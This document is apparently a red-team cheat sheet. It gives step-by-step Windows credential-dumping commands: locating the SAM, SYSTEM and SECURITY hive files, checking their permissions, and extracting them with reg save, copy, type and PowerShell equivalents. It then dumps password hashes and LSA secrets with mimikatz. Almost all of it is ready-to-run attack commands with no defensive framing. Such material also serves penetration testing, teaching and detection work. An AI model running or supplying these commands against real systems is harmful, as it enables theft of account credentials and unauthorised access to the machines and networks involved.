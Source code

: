 # Living off the Land

## 01 - Search hive files

### 1.1 - Command Prompt

```
C:\> dir /s /b SECURITY

C:\> dir /s /b SYSTEM

C:\> dir /s /b SAM
```

### 1.2 - PowerShell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM
```

## 02 - Enumerate hive files

### 2.1 - Command Prompt

```
C:\> icacls C:\Windows\System32\config\SECURITY
icacls C:\Windows\System32\config\SYSTEM
icacls C:\Windows\System32\config\SAM
icacls C:\Windows\Repair\SAM
icacls C:\Windows\Repair\SYSTEM
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges.

### 2.2 - PowerShell

TODO: More ways to find and enumerate in powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM | Get-ACL
```

## 03 - Extract hive files

### 3.1 - Command Prompt

#### 3.1.1 - Extract it via registry

```
C:\> reg.exe save hklm\security c:\temp\security
reg.exe save hklm\system c:\temp\system
reg.exe save hklm\sam c:\temp\sam
```

#### 3.1.2 - Copy files

```
C:\> copy C:\Windows\System32\config\SAM c:\temp\sam

C:\> copy C:\Windows\System32\config\SECURITY C:\temp\security 

C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 3.1.3 - Output the files' contents

```
C:\> type C:\Windows\System32\config\SAM > c:\temp\sam

C:\> type C:\Windows\System32\config\SECURITY > C:\temp\security

C:\> type C:\Windows\System32\config\SYSTEM > c:\temp\system
```

### 3.2 - PowerShell

#### 3.2.2 - Copy files

```
PS C:\> Copy-Item C:\Windows\System32\config\SAM c:\temp\sam

PS C:\> Copy-Item C:\Windows\System32\config\SECURITY C:\temp\security 

PS C:\> Copy-Item C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 3.2.3 - Output the files' contents

```
PS C:\> Get-Content C:\Windows\System32\config\SAM > c:\temp\sam

PS C:\> Get-Content C:\Windows\System32\config\SECURITY > C:\temp\security

PS C:\> Get-Content C:\Windows\System32\config\SYSTEM > c:\temp\system
```

## 04 - Hashdump

### 4.1 - Dumping SAM credentials with `mimikatz`

```
mimikatz # lsadump::sam /system:c\:temp\system /sam:c:\temp\sam
```

## 05 - LSASS Secrets

### 5.1 - Dumping LSASS secrets credentials with `mimikatz`

```
mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security
```

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

#### Red Team Notes

- [Red Team Notes: Dumping Hashes from SAM via Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

### Hacking Articles

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)